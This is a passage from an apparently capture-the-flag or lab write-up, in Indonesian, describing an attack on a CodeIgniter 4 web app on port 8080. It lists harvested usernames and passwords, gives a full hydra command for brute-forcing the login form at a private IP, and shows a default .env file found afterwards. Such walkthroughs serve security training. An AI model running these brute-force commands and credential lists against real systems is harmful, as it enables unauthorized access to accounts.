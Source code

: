 ### Finding The Secrets

- Diketahui bahwa aplikasi yang berjalan di port **8080** dan dibuat menggunakan **CodeIgniter 4** (PHP-based web framework).
- Ketika dibuka, muncul halaman login. Langsung saja saya coba brute force login http-form menggunakan informasi user dan password yang sudah diperoleh sebelumnya menggunakan tool: `hydra` dengan provide list user dan password yang telah diketahui sebelumnya.

<kbd>users.txt</kbd>
```txt
ayyub
donghyuk_kim
yeji_hwang
azkira_kim
bryan_jung
nurul_lee
yuna_shin
hanbin_kim
jay_payakumbuah
```

<kbd>pass.txt</kbd>
```txt
P@ssw0rd
T4da1mA!
Lzj*7BL%#fMhq
```

- Berikut adalah full command hydra untuk bruteforce http form loginnya (bisa juga pakai NSE `http-form-brute` dari `nmap`).

```bash
hydra -L users.txt -P pass.txt -s 8080 10.1.2.232 http-post-form "/authenticate:username=^USER^&password=^PASS^:login_failed"
# You can check the path and login parameter by intercepting the traffic via burp suite.
```

- Terdapat beberapa file yang menarik perhatian saya, yaitu file `yourspace/.env` dan `yourspace/public/info.asp`.

<kbd>.env</kbd>
```php
#--------------------------------------------------------------------
# Example Environment Configuration file
#
# This file can be used as a starting point for your own
# custom .env files, and contains most of the possible settings
# available in a default install.
#
# By default, all of the settings are commented out. If you want
# to override the setting, you must un-comment it by removing the '#'
# at the beginning of the line.
#--------------------------------------------------------------------

#--------------------------------------------------------------------
# ENVIRONMENT
#--------------------------------------------------------------------

CI_ENVIRONMENT = development

#--------------------------------------------------------------------
# APP
#--------------------------------------------------------------------

# app.baseURL = ''
# If you have trouble with `.`, you could also use `_`.
# app_baseURL = ''
```